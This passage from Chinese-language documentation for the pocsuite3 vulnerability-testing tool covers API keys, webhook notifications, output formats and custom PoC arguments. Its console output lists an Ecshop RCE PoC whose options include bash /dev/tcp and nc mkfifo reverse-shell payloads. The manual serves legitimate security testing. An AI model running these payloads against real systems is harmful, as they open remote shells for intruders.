 首次使用会提示输入 CEye API key，验证可用后会保存到 $HOME/.pocsuiterc 文件中，除非 token 过期，下次使用不会重复询问，也可使用 --ceye-token 参数提供。  
  
（其他请查看官网）  
### Web Hook  
  
扫描完成使用 钉钉 和 企业微信 进行通知  
  
--dingtalk-token  
  
钉钉的 token  
  
--dingtalk-secret  
  
钉钉的 secret  
  
--wx-work-key  
  
企业微信的 Web Hook key  
### 结果汇总  
- • --json-output  
：以 JSON 格式输出结果。  
  
- • -v / --ppt  
：控制台日志获取结果，-v 用于控制日志等级，--ppt 可以将 IP 地址马赛克处理，方便录屏。如下：  
  
```
pocsuite -k ecshop -u127.0.0.1-v2--ppt...[17:47:51] [INFO] loading PoC script 'pocsuite3/pocs/ecshop_rce.py'[17:47:51] [INFO] pocsusite got a total of 1 tasks[17:47:51] [DEBUG] pocsuite will open 1 threads[17:47:51] [INFO] running poc:'Ecshop 2.x/3.x Remote Code Execution' target '*.*.0.1'[17:47:54] [INFO] Scan completed,ready to print+------------+--------------------------------------+--------+-----------+---------+--------+| target-url |               poc-name               | poc-id | component | version | status |+------------+--------------------------------------+--------+-----------+---------+--------+| *.*.0.1    | Ecshop 2.x/3.x Remote Code Execution | 97343  |   ECSHOP  | 2.x,3.x | failed |+------------+--------------------------------------+--------+-----------+---------+--------+success : 0 / 1...
```  
- • -o / --output  
：将结果保存为 JSON Lines 格式文件。  
  
### 自定义的参数  
- • --args  
：为 PoC 脚本提供自定义参数。有的 PoC 脚本需要填写登录信息，或者任意命令执行时执行用户指定的命令。可在 PoC 中自定义参数，可参见：  
可自定义参数的 PoC  
  
使用 --optioins 参数可以很方便的查看某 PoC 的自定义参数信息，如下：  
```
pocsuite -k ecshop --options[17:27:24] [INFO] loading PoC script '**/lib/python3.9/site-packages/pocsuite3-1.9.6-py3.9.egg/pocsuite3/pocs/ecshop_rce.py'Module (pocs_ecshop_rce) options:+-------------+------------------------------------------+--------+--------------------------------------------------------------------------+|     Name    |             Current settings             |  Type  |                               Description                                |+-------------+------------------------------------------+--------+--------------------------------------------------------------------------+|   command   |                  whoami                  | String |                             攻击时自定义命令                             || app_version |                   Auto                   | Select |                           目标版本，可自动匹配                           ||   payload   | bash -c'sh -i >& /dev/tcp/{0}/{1} 0>&1' |  Dict  | nc:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i2>&1|nc {0} {1} >/tmp/f ||             |                                          |        |              bash:bash -c'sh -i >& /dev/tcp/{0}/{1} 0>&1'               ||             |                                          |        |                                                                          ||             |                                          |        |          You can select dict_keys(['nc', 'bash']) ,default:bash          |+-------------+------------------------------------------+--------+--------------------------------------------------------------------------+[*] shutting down at 17:27:24
```  
### 其他  
- • -n / --new  